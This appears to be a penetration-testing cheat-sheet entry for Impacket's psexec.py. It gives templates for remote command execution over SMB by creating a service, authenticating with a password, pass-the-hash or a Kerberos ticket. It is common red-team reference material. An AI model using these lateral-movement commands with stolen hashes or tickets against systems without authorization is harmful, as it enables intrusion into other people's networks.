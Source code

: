 # psexec (imp)

%  windows, impacket-exec, RemComSvc
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  

## desc
```
PSEXEC like functionality example using RemComSvc
```

## execute (creds)
create a new service (using \pipe\svcctl via SMB)
```bash
psexec.py <domain_fqdn>/<user>:'<password>'@<target_fqdn>
```

## execute (pth)
create a new service (using \pipe\svcctl via SMB)
```bash
psexec.py -hashes :<nt_hash> <domain_fqdn><user>@<target_fqdn>
```

## execute (ptt)
create a new service (using \pipe\svcctl via SMB)
```bash
KRB5CCNAME=<ccache> psexec.py -no-pass -k <target_fqdn>
```

